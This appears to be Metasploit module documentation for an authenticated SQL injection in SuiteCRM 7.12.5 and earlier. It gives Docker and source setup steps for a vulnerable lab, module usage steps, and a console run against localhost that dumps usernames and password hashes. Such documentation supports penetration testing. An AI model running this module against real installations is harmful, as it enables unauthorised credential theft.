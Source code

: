 ## Description
This module exploits an authenticated SQL injection in SuiteCRM installations below or equal to version 7.12.5. The 
vulnerability allows for union and blind boolean based SQLi to be exploited in order to collect usernames and password 
hashes from the SuiteCRM database.

## Vulnerable Application

The SQLi exploited by this module depends on the existence of at least one 'Account' being registered in SuiteCRM.
There should be one in SuiteCRM by default for the administrative user. If you want to test multiple users,
browse to `/index.php?module=Users&action=index` and then click the `Create New User` button on the left side
of the screen. Then enter a username and a last name. Then click the `password` tab, and enter a password for
the user, then confirm this password and click the `Save` button to create the user.

### Docker compose

**Prerequisites:** [Docker](https://docs.docker.com/get-docker/) and
[Docker Compose](https://docs.docker.com/compose/install/) must be
installed first.

To create a SuiteCRM 7.12.5 Docker container, first create a new folder, 
then save the following content as `docker-compose.yml`:

```
version: '2'
services:
  mariadb:
    image: docker.io/bitnami/mariadb:10.6
    environment:
      # ALLOW_EMPTY_PASSWORD is recommended only for development.
      - ALLOW_EMPTY_PASSWORD=yes
      - MARIADB_USER=bn_suitecrm
      - MARIADB_DATABASE=bitnami_suitecrm
      - MARIADB_PASSWORD=bitnami123
    volumes:
      - 'mariadb_data:/bitnami/mariadb'
  suitecrm:
    image: docker.io/bitnami/suitecrm:7.12.5
    ports:
      - '80:8080'
      - '443:8443'
    environment:
      - SUITECRM_DATABASE_HOST=mariadb
      - SUITECRM_DATABASE_PORT_NUMBER=3306
      - SUITECRM_DATABASE_USER=bn_suitecrm
      - SUITECRM_DATABASE_NAME=bitnami_suitecrm
      - SUITECRM_DATABASE_PASSWORD=bitnami123
      # ALLOW_EMPTY_PASSWORD is recommended only for development.
      - ALLOW_EMPTY_PASSWORD=yes
    volumes:
      - 'suitecrm_data:/bitnami/suitecrm'
    depends_on:
      - mariadb
volumes:
  mariadb_data:
    driver: local
  suitecrm_data:
    driver: local 
```

Finally, in the same directory as the `docker-compose.yml` file, run: `docker-compose up -d`.

Note that the default username to log in will be `user` and the password will be `bitnami`. If you
want to change these, put the following lines under the `environment` section:

```
    environment:
      - SUITECRM_USERNAME=my_user
      - SUITECRM_PASSWORD=my_password
```

The above would set the username to `my_user` and the password to `my_password`.

For more information on the docker compose file, refer to
https://github.com/bitnami/containers/tree/main/bitnami/suitecrm.

### Install from source

Source code can be found here: [SuiteCRM v7.12.5](https://github.com/salesagility/SuiteCRM/archive/refs/tags/v7.12.5.tar.gz) 

Instructions on installing from source can be found here: [Installation Guide](https://docs.suitecrm.com/admin/installation-guide/downloading-installing/) 

The following setup was installed on Ubuntu 20.04:

1. Setup and install MySQL:
    1. `sudo apt update`
    1. `sudo apt install mysql-server`
    1. `sudo systemctl start mysql.service`
    1. `sudo mysql` (open the mysql prompt)
    1. `mysql> ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'password';` (change the password 
       of the root user)
       
1. Install Apache
    1. `sudo apt install apache2`
    1. `sudo systemctl enable apache2`
    1. `sudo systemctl start apache2`
       
1. Install php and its dependencies
    1. `sudo apt -y install php7.4`
    1. `sudo apt install -y php-cli php-common php-curl php-mbstring php-gd php-mysql php-soap php-xml php-imap php-intl php-opcache php-json php-zip`
    1. `sudo apt install composer`
    1. `composer install`
    
1. Setup and install SuiteCRM 7.12.5
    1. `wget https://github.com/salesagility/SuiteCRM/archive/refs/tags/v7.12.5.tar.gz`
    1. `gunzip v7.12.5.tar.gz`
    1. `tar -xvf v7.12.5.tar`
    1. `sudo cp -r SuiteCRM-7.12.5/. /var/www/html`
    1. `cd /var/www/html`
    1. `sudo chown -R www-data:www-data .`
    1. `sudo chmod -R 755 .`
    1. `sudo chmod -R 775 custom modules themes data upload`
    1. `sudo chmod 775 config_override.php 2>/dev/null`
    1. Navigate to http://localhost/install.php and follow the installation wizard to complete the install
    

## Verification Steps

1. Start up metasploit
1. Do: `use auxiliary/gather/suite_crm_export_sqli`
1. Do: `set RHOSTS [IP]`
1. Configure a user and password by setting `USERNAME` and `PASSWORD`.
1. Do: `run`

## Scenarios

### SuiteCRM 7.12.5 Bitnami Docker Image
```
msf payload(windows/x64/meterpreter/reverse_tcp) > use auxiliary/gather/suite_crm_export_sqli 
msf auxiliary(gather/suite_crm_export_sqli) > show options

Module options (auxiliary/gather/suite_crm_export_sqli):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   COUNT     3                no        Number of users to enumerate
   PASSWORD                   yes       Password for user
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasp
                                        loit
   RPORT     80               yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   USERNAME                   yes       Username of user
   VHOST                      no        HTTP server virtual host


Auxiliary action:

   Name              Description
   ----              -----------
   Dump credentials  Dumps usernames and passwords from the users table


msf auxiliary(gather/suite_crm_export_sqli) > set USERNAME user
USERNAME => user
msf auxiliary(gather/suite_crm_export_sqli) > set PASSWORD bitnami
PASSWORD => bitnami
msf auxiliary(gather/suite_crm_export_sqli) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf auxiliary(gather/suite_crm_export_sqli) > check

[*] Authenticating as user
[+] Authenticated as: user
[*] Version detected: 7.12.5
[+] 127.0.0.1:80 - The target is vulnerable.
msf auxiliary(gather/suite_crm_export_sqli) > run
[*] Running module against 127.0.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Authenticating as user
[+] Authenticated as: user
[*] Version detected: 7.12.5
[+] The target is vulnerable.
[*] Fetching Users, please wait...
SuiteCRM User Names
===================

 Username
 --------
 testuser
 user

[*] Fetching Hashes, please wait...
[+] (1/2) Username : testuser ; Hash : $2y$10$YFr9.QNPVDXoLKv5FQo7d.UIRBSMTnPGDS2LLHsuGSojAA2Q5kELa
[+] (2/2) Username : user ; Hash : $2y$10$O83wcCVEfY7GKo//dbQwwOFOevfLFnhpP4d9n98HmGM2YPxJZqMhO
SuiteCRM User Credentials
=========================

 Username  Hash
 --------  ----
 testuser  $2y$10$YFr9.QNPVDXoLKv5FQo7d.UIRBSMTnPGDS2LLHsuGSojAA2Q5kELa
 user      $2y$10$O83wcCVEfY7GKo//dbQwwOFOevfLFnhpP4d9n98HmGM2YPxJZqMhO

[*] Auxiliary module execution completed
msf auxiliary(gather/suite_crm_export_sqli) > 
```
